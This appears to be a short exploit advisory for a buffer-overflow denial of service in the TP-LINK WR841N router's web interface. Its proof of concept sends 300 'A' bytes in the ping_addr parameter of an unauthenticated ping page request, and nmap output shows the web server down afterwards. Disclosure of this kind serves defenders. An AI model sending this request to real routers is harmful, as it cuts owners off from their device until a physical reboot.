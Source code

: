 ## Exploit Title: TP-LINK WR841N - Buffer Overflow DOS (Denial of Service)

- Date: 04/28/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Tp-Link](http://www.tp-link.com)

- Version: TP-LINK WR841N 3.16.9 Build 160721 Rel.51793n

- Hardware Version:	WR841N v11 00000000

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in TP-LINK WR841N router that can allow an attacker to crash the web server running on the router by sending a crafted request 
To bring back the http (webserver), a user must physically reboot the route.


## Proof of Concept (Using Burp Suite)

- GET request to ping service, made an unauthorized request to /userRpm/PingIframeRpm.htm?ping_addr= , Sending 300 bytes of A’s to limited stack

- nmap 192.168.35.1 -p 80 80/tcp closed http

[!](https://www3.0zz0.com/2024/08/10/19/692309672.jpg)
